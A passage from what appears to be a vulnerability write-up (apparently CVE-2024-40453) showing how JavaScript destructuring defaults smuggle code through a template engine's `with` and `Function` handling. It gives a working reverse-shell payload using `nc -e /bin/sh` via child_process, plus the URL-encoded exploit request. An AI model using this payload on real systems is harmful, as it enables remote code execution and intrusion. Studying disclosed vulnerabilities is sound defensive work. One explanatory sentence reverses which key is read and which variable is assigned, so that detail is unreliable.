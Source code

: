 ```javascript
[a, , b] = array;
[a = aDefault, b] = array;
[a, b, ...rest] = array;
[a, , b, ...rest] = array;
[a, b, ...{ pop, push }] = array;
[a, b, ...[c, d]] = array;

({ a, b } = obj); // parentheses are required
({ a: a1, b: b1 } = obj);
({ a: a1 = aDefault, b = bDefault } = obj);
({ a, b, ...rest } = obj);
({ a: a1, b: b1, ...rest } = obj);
```

The most interesting syntax is this:

```javascript
({ a: a1 = aDefault, b = bDefault } = obj);
```

It takes the value corresponding to the `a1` key in `obj`, and assigns it to `a`. If `a1` is not defined then it
evaluates `aDefault`

With this syntax, we can satisfy the `with` expression since it's now a valid object initializer. It also satisfies the
`Function` constructor since it's simply assigning the value to a different name. So we can use this for RCE!

```javascript
// valid!
with ({ a: b = console.log("x") } || {}) {
    // ...
}

// valid!
new Function("{ a: b = console.log('x') }", "c", "cb", "return 1")
```

Let's test out our payload with a reverse shell:

```
Payload: { a: b = global.process.mainModule.require("child_process").execSync("nc -e /bin/sh localhost 1337") }

http://localhost:3000?useWith=1&varName=%7B%20a:%20b%20=%20global.process.mainModule.require(%22child_process%22).execSync(%22nc%20-e%20/bin/sh%20localhost%201337%22)%20%7D
```

And we have RCE!

![Reverse shell](@images/2024/cve-2024-40453/reverse-shell.png)

## Better payloads
